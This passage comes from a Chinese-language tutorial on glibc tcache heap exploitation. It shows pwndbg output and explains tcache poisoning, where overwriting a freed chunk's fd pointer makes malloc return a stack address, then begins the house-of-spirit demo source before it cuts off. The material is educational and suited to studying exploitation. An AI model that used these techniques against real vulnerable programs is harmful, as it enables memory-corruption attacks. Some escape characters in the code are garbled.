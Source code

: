 此时我们只需要malloc一次就可以取出来了（开篇时有提及，tcache是先进后出的

```
pwndbg&gt; p/x b-2
$1 = 0x7fffffffe5b0

$2 = {
  mchunk_prev_size = 0x7fffffffe5e0, 
  mchunk_size = 0x555555554942, 
  fd = 0x5555555549a0, 
  bk = 0x555555756260, 
  fd_nextsize = 0x7fffffffe5c0, 
  bk_nextsize = 0xa9ab61495b094700
}
pwndbg&gt; p/x stack_var
$3 = 0x5555555549a0
pwndbg&gt;
```

### <a class="reference-link" name="%E6%80%BB%E7%BB%93"></a>总结

对于tcache poisoning来说，我们的利用极其简单

只需要free掉一个chunk放入tcache中，然后直接更改其fd指针，我们就可以任意地址malloc了

程序首先在栈上声明了一个变量，之后malloc了chunk a(size=128),此时free掉chunk a,a被链入到free list中

然后程序覆写了a的fd指针，将其指向了我们的栈指针

现在栈指针也被链入了我们的free list中

此时我们再malloc，因为不会检查size是否合法，就可以直接将我们的栈指针取出来了(先进后出)



## tcache_house_of_spirit

### <a class="reference-link" name="%E5%BA%8F"></a>序

我们的tcache_house_of_spirit就是通过free一个Fake chunk来让malloc返回一个指向几乎任意地址的指针

### <a class="reference-link" name="%E6%BA%90%E4%BB%A3%E7%A0%81"></a>源代码

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

int main()
{
    //本文件是通过tcache来利用house of sprirt技术的demo
    fprintf(stderr, "This file demonstrates the house of spirit attack on tcache.n");

    //这个技术与原始的HOS利用方式相似，但我们不需要在fake chunk被free之后创建fake chunk
    fprintf(stderr, "It works in a similar way to original house of spirit but you don't need to create fake chunk after the fake chunk that will be freed.n");

    //我们可以看到在malloc.c中的_int_free调用tcach_put时并没有检查下一个chunk的szie和prev_inuse位是合理的
    fprintf(stderr, "You can see this in malloc.c in function _int_free that tcache_put is called without checking if next chunk's size and prev_inuse are sane.n");

    //搜索字符串"invalid next size"和"double free or corruption"
    fprintf(stderr, "(Search for strings "invalid next size" and "double free or corruption")nn");

    //好了，现在我们开始
    fprintf(stderr, "Ok. Let's start with the example!.nn");

```